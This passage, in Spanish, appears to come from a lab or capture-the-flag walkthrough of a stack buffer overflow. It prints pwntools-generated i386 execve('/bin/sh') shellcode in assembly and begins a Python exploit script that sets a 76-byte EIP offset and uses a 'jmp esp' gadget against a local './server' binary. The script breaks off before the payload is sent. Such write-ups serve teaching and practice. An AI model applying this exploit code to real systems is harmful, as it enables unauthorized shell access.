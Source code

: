 Por otro lado, el *shellcode* que utilizaremos lo obtendremos con la herramienta *shellcraft* (incluida en la librería [[pwntools]]):

```bash
shellcraft -l | grep linux | grep sh
```
```shellcraft
[...]
i386.linux.sh
[...]
```

```bash
shellcraft i386.linux.sh -f a
```
```shellcraft
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```
> Para verla en formato ensamblador.

Para la explotación utilizaremos python3 y la librería [[pwntools]]. Crearemos un *script* que simplificará el proceso. El *script* es el siguiente:

```python
#!/bin/python3

from pwn import *

exe = './server'

#Automatically get context arch, bits, os etc, para luego poder buscar rop gadgets
elf = context.binary = ELF(exe, checksec=False)

#context.log_level = 'debug'    #Modo debug para ver que esta pasando

io = process(exe)

#Offset hasta EIP
padding = 76

jmp_esp = asm('jmp esp')    #Crea la instruccion jmp esp en ensamblador para poder buscarla
jmp_esp = next(elf.search(jmp_esp))     #Busca la secuencia jmp esp en el contexto

shellcode = asm(shellcraft.sh())

#shellcode += asm(shellcraft.exit())
```